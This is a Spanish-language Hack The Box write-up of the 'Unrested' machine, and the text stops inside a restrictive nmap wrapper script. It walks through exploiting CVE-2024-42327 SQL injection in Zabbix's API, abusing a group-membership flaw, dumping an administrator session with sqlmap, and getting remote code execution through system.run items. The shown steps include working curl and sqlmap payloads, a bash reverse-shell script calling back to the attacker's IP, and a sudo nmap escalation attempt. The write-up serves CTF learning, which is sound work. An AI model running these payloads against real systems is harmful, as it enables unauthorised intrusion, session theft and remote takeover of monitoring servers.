

+++
author = "Andrés Del Cerro"
title = "Hack The Box: Unrested Writeup | Medium"
date = "2024-12-06"
description = ""
tags = [
    "HackTheBox",
    "Unrested",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Abusing CVE-2024-42327",
    "SQL Injection",
    "PHP Code Analysis",
    "Abusing Zabbix API Tokens",
    "Abusing Zabbix RPC API",
    "Abusing Broken Access Control",
    "Zabbix Privilege Escalation",
    "Zabbix Remote Code Execution",
    "Abusing sudo privilege in nmap"
]

+++

# Hack The Box: Unrested Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Unrested"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 10.129.120.77 --ulimit 5000 -g
10.129.120.77 -> [22,80,10051,10050]
```

```console
nmap -p22,80,10051,10050 -sCV 10.129.120.77 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 18:53 CET
Nmap scan report for 10.129.120.77
Host is up (0.037s latency).

PORT      STATE SERVICE             VERSION
22/tcp    open  ssh                 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http                Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
10050/tcp open  tcpwrapped
10051/tcp open  ssl/zabbix-trapper?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.21 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.120.77 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 18:53 CET
Nmap scan report for 10.129.120.77
Host is up (0.037s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
1007/udp  closed unknown
2000/udp  closed cisco-sccp
19222/udp closed unknown
19273/udp closed unknown
21454/udp closed unknown
26966/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.82 seconds
```

# HTTP Enumeration
Los puertos 10050/TCP y 10051/TCP tiene pinta de que pertenecen a `Zabbix` ya que el servidor utiliza el puerto 10050/TCP y un agente activo utiliza el puerto 10051/TCP. 

Zabbix es un software que monitorea numerosos parámetros de una red y de la salud e integridad de distintos dispositivos, lo interesante de esto es que tiene una base de datos detrás y quizás podamos acceder una vez hagamos la intrusión de la máquina ya que el puerto de la BBDD no está expuesto.

`whatweb` nos reporta que el servicio web es el panel de autenticación de Zabbix.
```console
whatweb http://10.129.120.77
http://10.129.120.77 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.120.77], Meta-Refresh-Redirect[/zabbix/]
http://10.129.120.77/zabbix/ [200 OK] Apache[2.4.52], Cookies[zbx_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[zbx_session], IP[10.129.120.77], Meta-Author[Zabbix SIA], PasswordField[password], Script, Title[Unrested: Zabbix], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=Edge], X-XSS-Protection[1; mode=block]
```


En esta máquina se nos ofrece unas credenciales al igual que pasa en las pruebas de penetración de la vida real.

> As is common in real life pentests, you will start the Unrested box with credentials for the following account on Zabbix: matthew / 96qzn0h2e1k3

Con estas credenciales podemos acceder a Zabbix.


Me interesa saber cual es la versión de Zabbix para saber si es vulnerable o tiene algún problema de seguridad.

Sabemos que la versión del frontend es la `7.0`, como esta máquina es del 5 de diciembre, me imagino que se toca alguna vulnerabilidad nueva (también porque he probado varios exploits y no ha funcionado nada)

Nos encontramos [este artículo](https://support.zabbix.com/browse/ZBX-25623)


# Abusing CVE-2024-42327 (SQL Injection)
## Code Analysis
La descripción dice que una cuenta con un rol que no sea administrador como es nuestro caso, si tenemos acceso a la API podemos abusar una inyección SQL en la clase `CUser` relacionada con la función `addRelatedObjects(array $options, array $result)`.

Como Zabbix es de código abierto, podemos ver el archivo `CUser.php` que es el afectado y ver como se ve en la [versión 7.0](https://github.com/zabbix/zabbix/commit/3370c19f7ae0915836d6ebb9269acfb28791d185)

Entonces si vemos la función mencionada, podemos ver el snippet de código de cuando era vulnerable.


Primero, se configura el rol del usuario.
```php
if ($options['selectRole'] !== null && $options['selectRole'] !== API_OUTPUT_COUNT) {
	if ($options['selectRole'] === API_OUTPUT_EXTEND) {
		$options['selectRole'] = ['roleid', 'name', 'type', 'readonly'];
	}
```

Verifica si `selectRole` está definido y no es igual a `API_OUTPUT_COUNT`

Si `selectRole` tiene el valor especial `API_OUTPUT_EXTEND`, se redefine para incluir detalles extendidos del rol (`roleid`, `name`, `type`, `readonly`).

Luego se genera la consulta SQL que obtiene la información del usuario y de sus roles.
```php
$this->addRelatedRole($options, $result);

$db_roles = DBselect(
	'SELECT u.userid'.($options['selectRole'] ? ',r.'.implode(',r.', $options['selectRole']) : '').
	' FROM users u,role r'.
	' WHERE u.roleid=r.roleid'.
	' AND '.dbConditionInt('u.userid', $userIds)
);
```

Aquí ocurre el problema, es que se concatena directamente `$options['selectRole'` y no es validado, por lo cual significa que podrían inyectarse una consulta SQL maliciosa.

Y además, todo esto lo podemos explotar sin necesidad de ser un usuario privilegiado, simplemente con tener acceso a la API.

Luego tenemos el método `addRelatedRole(array $options, array &$result): void`
```php
private function addRelatedRole(array $options, array &$result): void {
	if ($options['selectRole'] === null) {
		return;
	}

	while ($db_role = DBfetch($db_roles)) {
		$userid = $db_role['userid'];
		unset($db_role['userid']);
		$relation_map = $this->createRelationMap($result, 'userid', 'roleid');

		$result[$userid]['role'] = $db_role;
	}
}
```

Que primero comprueba si `selectRole === null`, si es así el método no hace nada y simplemente retorna.

Usa `DBfetch` para obtener los datos de la consulta SQL (`$db_roles`), luego extrae `userid` del resultado para asignarlo al usuario correspondiente.

**Lo importante del análisis es que en ningún momento se comprueba que el usuario que utiliza la API tenga el rol de administrador, por lo cual podríamos realizar esta explotación u otra que vamos a realizar mas adelante.**

Podemos consultar [este PoC](https://github.com/aramosf/cve-2024-42327/blob/main/cve-2024-42327.py) que explota la vulnerabilidad para ver que hace el código.

```console
git clone https://github.com/aramosf/cve-2024-42327/
Cloning into 'cve-2024-42327'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 0), reused 8 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (8/8), done.
```

Ejecutando el PoC vemos que no nos devuelve nada, esto es porque este exploit se usa simplemente para conseguir la información de los demás usuarios de Zabbix, y nosotros queremos llevarlo al "siguiente nivel" y escalar privilegios.
```console
python3 cve-2024-42327.py -u http://10.129.120.77/zabbix/api_jsonrpc.php -n matthew -p 96qzn0h2e1k3
Valid session token: 6c7d87a472a37967ae50423779c115ed
```

## Using the API
Así que vamos a empaparnos de la [documentación de la API](https://www.zabbix.com/documentation/current/en/manual/api) y ver primero, como podemos autenticarnos.

Vemos que podemos autenticarnos utilizando un API token o utilizar el método `user.login` que es utilizando nuestro usuario y contraseña.

Vamos a crear un API Token.


Le damos a `Create API token`


Creamos un token y podemos elegir que el token no expire para quitarnos problemas.


Y ya tenemos nuestro API Token, con esto podemos utilizar la API sin tener que pasar nuestro usuario y contraseña en cada solicitud que hagamos.


El endpoint de la API es `/api_jsonrpc.php`, vamos a hacer una prueba[ siguiendo la documentación de la API](https://www.zabbix.com/documentation/current/en/manual/api/reference/user/get) para solicitar la información de todos los usuarios para ver si nos estamos autenticando correctamente.

```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.get", "params":{"output": "extend"},"auth":"noexisteobviamente", "id": 1}'
{"jsonrpc":"2.0","error":{"code":-32602,"message":"Invalid params.","data":"Session terminated, re-login, please."},"id":1}
```

Vemos que con un token no válido nos reporta un error, pero si utilizamos el API Token que hemos generado, nos devuelve algo aunque está vacío, pero es buena señal.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.get", "params":{"output": "extend"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}
```

Vamos a intentar cambiar el nombre de nuestro usuario utilizando el método `user.update`, para ello primero necesitamos saber cual es nuestro ID de usuario, lo podemos consultar utilizando el método `user.checkAuthentication` y pasando como parámetro nuestro API Token.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.checkAuthentication", "params":{"token": "98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0"}, "id": 1}'
{"jsonrpc":"2.0","result":{"userid":"3","username":"matthew","name":"Matthew","surname":"Smith","url":"","autologin":"1","autologout":"0","lang":"en_US","refresh":"30s","theme":"default","attempt_failed":"0","attempt_ip":"","attempt_clock":"0","rows_per_page":"50","timezone":"system","roleid":"1","userdirectoryid":"0","ts_provisioned":"0","debug_mode":0,"deprovisioned":false,"gui_access":0,"mfaid":0,"auth_type":0,"type":1,"userip":"10.10.14.197"},"id":1}% 
```

Vemos que somos el ID 3.

Ahora con el método `user.update` probamos a cambiar el nombre del usuario y vemos que nos devuelve una respuesta correcta.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.update", "params":{"userid": "3", "name": "POINTED"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}'
{"jsonrpc":"2.0","result":{"userids":["3"]},"id":1}
```

Y ahora podemos consultar y vemos que efectivamente, ha cambiado nuestro nombre.
```console
curl -s -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.checkAuthentication", "params":{"token": "98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0"}, "id": 1}' | jq -r '.result.name'
POINTED
```

## Abusing Broken Access Control (Privilege Escalation)
Vamos a intentar cambiar nuestro valor de `roleid` que antes hemos visto que vale `1`. Quiero pensar que el rol de administrador será el `0` pero al intentar actualizarlo, resulta que se está 
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.update", "params":{"userid": "3", "roleid": "0"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}'
{"jsonrpc":"2.0","error":{"code":-32602,"message":"Invalid params.","data":"User cannot change own role."},"id":1}
```

Parece que por poder podríamos, pero hay una comprobación para no cambiar nuestro propio rol, esta comprobación es el método `checkHimself`.
```php
private function checkHimself(array $users) {
		foreach ($users as $user) {
			if (bccomp($user['userid'], self::$userData['userid']) == 0) {
				if (array_key_exists('roleid', $user) && $user['roleid'] != self::$userData['roleid']) {
					self::exception(ZBX_API_ERROR_PARAMETERS, _('User cannot change own role.'));
				}

				if (array_key_exists('usrgrps', $user)) {
					$db_usrgrps = DB::select('usrgrp', [
						'output' => ['gui_access', 'users_status'],
						'usrgrpids' => zbx_objectValues($user['usrgrps'], 'usrgrpid')
					]);

					foreach ($db_usrgrps as $db_usrgrp) {
						if ($db_usrgrp['gui_access'] == GROUP_GUI_ACCESS_DISABLED
								|| $db_usrgrp['users_status'] == GROUP_STATUS_DISABLED) {
							self::exception(ZBX_API_ERROR_PARAMETERS,
								_('User cannot add himself to a disabled group or a group with disabled GUI access.')
							);
						}
					}
				}

				break;
			}
		}
	}
```

En este método vemos que se está validando el parámetro `userid` pero no el parámetro `usrgrps` que según la documentación podemos pasarle un Array e intentar especificar el grupo de los administradores para agregarnos al grupo.

En el array se debe contener la ID del grupo mediante el parámetro `usrgrpid`.

Vemos que no nos deja agregarnos al grupo porque supuestamente este no existe, así que primero necesito o saber que grupos me interesan, o simplemente hacer fuerza bruta y agregarme a todos los grupos que existan.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.update", "params":{"usrgrps": [{"usrgrpid": 1}], "userid": "3"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 3}'
{"jsonrpc":"2.0","error":{"code":-32602,"message":"Invalid params.","data":"Invalid parameter \"/1/usrgrps/1\": object does not exist."},"id":3}
```

Según la documentación, deberíamos de poder utilizar el método `usergroup.get` para conseguir ver los grupos, pero no tenemos suerte.
```console
curl -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"usergroup.get", "params": {"output": "extended"}, "auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}'
{"jsonrpc":"2.0","result":[],"id":1}
```

Por lo cual, podemos hacer un one-liner e intentar agregarnos a todos los grupos del `0` al `50` y vemos que tenemos suerte y nos agregamos en algunos grupos.
```console
for i in {0..50}; do response=$(curl -s -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data "{\"jsonrpc\": \"2.0\", \"method\":\"user.update\", \"params\":{\"usrgrps\": [{\"usrgrpid\": $i}], \"userid\": \"3\"},\"auth\":\"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0\", \"id\": 3}"); [[ $response != *\"error\"* ]] && echo "Group ID: $i"; done

Group ID: 7
Group ID: 8
Group ID: 11
Group ID: 13
```

Ahora por ejemplo, si que tenemos permiso para ver los grupos existentes.
```console
curl -s -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"usergroup.get", "params": {"output": "extend", "status": 0}, "auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}' | jq
{
  "jsonrpc": "2.0",
  "result": [
    {
      "usrgrpid": "13",
      "name": "Internal",
      "gui_access": "1",
      "users_status": "0",
      "debug_mode": "0",
      "userdirectoryid": "0",
      "mfa_status": "0",
      "mfaid": "0"
    }
  ],
  "id": 1
}
```

Y podemos incluso ver los usuarios del Zabbix.
```console
curl -s -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.get", "params":{"output": "extend"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}' | jq
{
  "jsonrpc": "2.0",
  "result": [
    {
      "userid": "1",
      "username": "Admin",
      "name": "Zabbix",
      "surname": "Administrator",
      "url": "",
      "autologin": "1",
      "autologout": "0",
      "lang": "default",
      "refresh": "30s",
      "theme": "default",
      "attempt_failed": "0",
      "attempt_ip": "",
      "attempt_clock": "0",
      "rows_per_page": "50",
      "timezone": "default",
      "roleid": "3",
      "userdirectoryid": "0",
      "ts_provisioned": "0"
    },
    {
      "userid": "2",
      "username": "guest",
      "name": "",
      "surname": "",
      "url": "",
      "autologin": "0",
      "autologout": "15m",
      "lang": "default",
      "refresh": "30s",
      "theme": "default",
      "attempt_failed": "0",
      "attempt_ip": "",
      "attempt_clock": "0",
      "rows_per_page": "50",
      "timezone": "default",
      "roleid": "4",
      "userdirectoryid": "0",
      "ts_provisioned": "0"
    },
    {
      "userid": "3",
      "username": "matthew",
      "name": "POINTED",
      "surname": "Smith",
      "url": "",
      "autologin": "1",
      "autologout": "0",
      "lang": "default",
      "refresh": "30s",
      "theme": "default",
      "attempt_failed": "0",
      "attempt_ip": "",
      "attempt_clock": "0",
      "rows_per_page": "50",
      "timezone": "default",
      "roleid": "1",
      "userdirectoryid": "0",
      "ts_provisioned": "0"
    }
  ],
  "id": 1
}
```

# Abusing SQLi to get administrator session w/sqlmap
Ahora que tenemos permiso en principio para usar el método `user.get`, podemos explotar el SQLi que hemos visto antes.

De hecho, podemos utilizar el PoC de antes y vemos que funciona y conseguimos los hashes de los usuarios.
```console
python3 cve-2024-42327.py -u http://10.129.120.77/zabbix/api_jsonrpc.php -n matthew -p 96qzn0h2e1k3
Valid session token: 97e9f348e88a53f2ad264c3bef48b0ab
Admin, Zabbix, Administrator, 1, $2y$10$L8UqvYPqu6d7c8NeChnxWe1.w6ycyBERr8UgeUYh.3AO7ps3zer2a
guest, , , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06
matthew, POINTED, Smith, 3, $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS
```

Podemos intentar crackear el hash del usuario administrador pero vemos que no hay suerte.
```console
.\hashcat.exe -a 0 .\hash.txt .\rockyou.txt
```

Entonces, de alguna forma necesitamos convertirnos en administradores, ya que si se ha agregado un host que sea la máquina víctima (que tiene pinta ya que están los puertos anteriormente mencionados abiertos), podríamos crear un objeto cuyo objetivo sea ejecutar un comando a nivel de sistema y así ganar acceso en la máquina víctima.

Para ello podemos explotar la SQLi manualmente, analizando el PoC vemos que para conseguir el hash del usuario, se aprovecha del SQLi y nos podemos hacer una idea de como podemos explotarlo.


Así que ahora, nos vamos a dirigir a `burpsuite` y vamos a redireccionar esa solicitud POST del script a nuestro proxy.


Ahora si lanzamos el exploit vemos la solicitud en el `burpsuite`, modificando un poco la solicitud quitando lo que no es necesario, y reemplazando el método de autenticación por nuestro API Token, nos queda lo siguiente y vemos que conseguimos los hashes de las cuentas de usuario.


Ahora a esta solicitud, le podemos poner el carácter `*`, para guardarla y automatizar la inyección con `sqlmap`


Guardamos la solicitud.


Rápidamente `sqlmap` detecta que es vulnerable a SQLi y nos reporta información.
```console
sqlmap -r sqli
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.2#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:00:01 /2024-12-06/

[03:00:01] [INFO] parsing HTTP request from 'sqli'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
JSON data found in POST body. Do you want to process it? [Y/n/q] n
[03:00:02] [INFO] flushing session file
[03:00:02] [INFO] testing connection to the target URL
[03:00:02] [INFO] checking if the target is protected by some kind of WAF/IPS
[03:00:02] [INFO] testing if the target URL content is stable
[03:00:03] [INFO] target URL content is stable
[03:00:03] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[03:00:03] [INFO] (custom) POST parameter '#1*' appears to be dynamic
[03:00:03] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable
[03:00:03] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[03:00:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:00:03] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[03:00:04] [WARNING] reflective value(s) found and filtering out
[03:00:04] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:00:04] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[03:00:04] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[03:00:04] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[03:00:05] [INFO] testing 'Generic inline queries'
[03:00:05] [INFO] (custom) POST parameter '#1*' is 'Generic inline queries' injectable
[03:00:05] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[03:00:05] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[03:00:05] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[03:00:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:00:05] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[03:00:05] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[03:00:05] [INFO] testing 'Oracle AND time-based blind'
[03:00:05] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[03:00:05] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it with option '--dbms'
[03:00:05] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
n
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: inline query
    Title: Generic inline queries
    Payload: {"jsonrpc": "2.0", "method": "user.get", "params": {"selectRole": ["roleid, (SELECT CONCAT(CONCAT('qkzqq',(CASE WHEN (3281=3281) THEN '1' ELSE '0' END)),'qjvbq'))"]}, "auth": "98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}
---
[03:00:09] [INFO] testing MySQL
[03:00:10] [INFO] confirming MySQL
[03:00:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[03:00:10] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.129.120.77'
[03:00:10] [WARNING] your sqlmap version is outdated

[*] ending @ 03:00:10 /2024-12-06/
```

Vemos que existe dos bases de datos.
```
[*] information_schema
[*] zabbix
```

Y existe una tabla `sessions`, al dumpearla vemos que hay una sesión del usuario administrador, por lo cual podemos utilizarla para hacer peticiones a la API supuestamente.

```
+--------+----------------------------------+----------------------------------+----------+------------+
| userid | sessionid                        | secret                           | status   | lastaccess |
+--------+----------------------------------+----------------------------------+----------+------------+
| 1      | 836881b5a680d319ba5337d127c7f393 | a7885b2b6bdf9f0ae421c7b22f44db95 | 0        | 1733449909 |
| 3      | 643f5420d1bfecca5a1a3fb4ec4f03d4 | bd8e3e2234fee0c576ec88f8b3e988fd | 0        | 1733450199 |
+--------+----------------------------------+----------------------------------+----------+------------+
```

Si utilizamos esa sesión y hacemos una solicitud, vemos que el servidor nos responde, por lo cual es una sesión válida y es la sesión del administrador.


De hecho podemos utilizar confirmarlo del todo utilizando el método `user.checkAuthentication` para ver de quien es esta sesión y ahora si que si podemos confirmar que tenemos la sesión del usuario administrador.


# Remote Code Execution -> Foothold
Para crear este objeto, mi idea era intentar cambiar la contraseña del administrador e intentar hacerlo desde la interfaz gráfica, pero teniendo acceso a la API, 쯣ara qué voy a hacer eso?.

Podemos investigar como funciona esto viendo como funciona los `items` en Zabbix, y luego podemos ver [esta documentación de la API](https://www.zabbix.com/documentation/current/en/manual/api/reference/item/create), podemos investigar un poco el parámetro `tag` y vemos que tiene un atributo `_key` que sería como la acción a realizar. En Zabbix existe la funcionalidad para poder ejecutar un comando utilizando `system.run`, entonces quizás podemos llegar a ejecutar un comando juntando todo esto.

Antes de nada, vemos que para poder crear un `item` necesitamos un ID del host, que todavía no lo sabemos.
```
{
           "jsonrpc": "2.0",
           "method": "item.create",
           "params": {
               "name": "uname",
               "key_": "system.uname",
               "hostid": "30021",
               "type": 0,
               "interfaceid": "30007",
               "value_type": 1,
               "delay": "10s",
               "inventory_link": 5
           },
           "id": 1
       }
```

Para ello tenemos el método `host.get` y vemos que el efectivamente, existe un host, que esto ya lo sabíamos, y es el ID 10084.


También necesitamos el valor de la interfaz que está utilizando este host (`interfaceid`), por lo cual podemos utilizar el parámetro `interfaceids` para ir filtrando y descubrir cual es el ID de la interfaz.


Si filtramos por los host's que tengan la interfaz con ID 0, vemos que no nos devuelve nada.


Pero si filtramos por el ID 1 nos devuelve el host que nos interesa.


Ahora según la documentación, para poder utilizar `system.run` en el método `item.create`, debe de estar a `1` el parámetro `EnableRemoteCommands` para que esto funcione, así que vamos a probar a ver si tenemos suerte.
La sintaxis para utilizar `system.run[COMANDO]`, lo podemos consultar [en esta consulta de un usuario](https://www.zabbix.com/forum/zabbix-help/21803-system-run-syntax)
Vamos a intentar mandarnos un ping a nuestra máquina.

```
POST /zabbix/api_jsonrpc.php HTTP/1.1

Host: 10.129.231.176

User-Agent: curl/8.7.1

Accept: */*

Content-Type: application/json-rpc

Content-Length: 258

Connection: close


{"jsonrpc": "2.0", "method": "item.create",

"params":{

"name":  "test",

"key_":"system.run[ping -c 1 10.10.14.197]",

"interfaceid": 1,

"hostid":"10084",

"type":0,

"value_type":1,

"delay":"2s"

},
"auth": "b8836e5c59399a3792725897cac250fc",

 "id": 1}
```


Y el servidor nos da una respuesta que pinta bien.

```json
{"jsonrpc":"2.0","result":{"itemids":["47183"]},"id":1}
```


Ahora si nos ponemos en escucha de trazas ICMP, podemos ver que efectivamente, se está ejecutando el comando en la máquina víctima y nos está mandando un ping.
```console
sudo tcpdump -i tun0 icmp
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:11:02.829832 IP 10.129.231.176 > 10.10.14.197: ICMP echo request, id 1, seq 1, length 64
18:11:02.830000 IP 10.10.14.197 > 10.129.231.176: ICMP echo reply, id 1, seq 1, length 64
```

Ahora nos vamos a poner en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Ahora vamos a crear un fichero `rev.sh` donde vamos a crear el script para mandarnos una reverse shell.
```console
cat -p rev.sh
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.197/443 0>&1"
```

Vamos a servir este script por el puerto 8081.
```console
python3 -m http.server 8081
```

Ahora creamos el `item` para descargar este script y ejecutarlo en la máquina víctima


Y después de unos segundos conseguimos acceso a la máquina víctima como el usuario `zabbix`.
```console
zabbix@unrested:/$ id
uid=114(zabbix) gid=121(zabbix) groups=121(zabbix)
```

`zabbix` no tiene la flag de usuario, y viendo que existe otro usuario llamado `matthew` supongo que el tendrá una de las flags.
```console
zabbix@unrested:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
```
# Privilege Escalation
Vemos que podemos ejecutar `nmap` como cualquier usuario y sin contraseña.
```console
zabbix@unrested:/home$ sudo -l
Matching Defaults entries for zabbix on unrested:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zabbix may run the following commands on unrested:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap *
```

Vemos en [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) que hay formas de escalar privilegios con `nmap`, pero al probarlo...
```console
zabbix@unrested:/home$ TF=$(mktemp)
zabbix@unrested:/home$ echo 'os.execute("/bin/sh")' > $TF
zabbix@unrested:/home$ sudo /usr/bin/nmap --script=$TF
Script mode is disabled for security reasons.
```

Entonces revisando, resulta que el fichero `/usr/bin/nmap` no es el binario original, es un script que envuelve el verdadero `nmap` que se encuentra en `/usr/bin/nmap.original`
```console
zabbix@unrested:/home$ file /usr/bin/nmap
/usr/bin/nmap: Bourne-Again shell script, ASCII text executable
```

Este es el script.
```bash
#!/bin/bash

#################################
## Restrictive nmap for Zabbix ##
#################################

# List of restricted options and corresponding error messages
declare -A RESTRICTED_OPTIONS=(
    ["--interactive"]="Interactive mode is disabled for security reasons."
    ["--script"]="Script mode is disabled for security reasons."
    ["-oG"]="Scan outputs in Greppable format are disabled for security reasons."
    ["-iL"]="File input mode is disabled for security reasons."
)

# Check if any restricted options are used
for option in "${!RESTRICTED_OPTIONS[@]}"; do
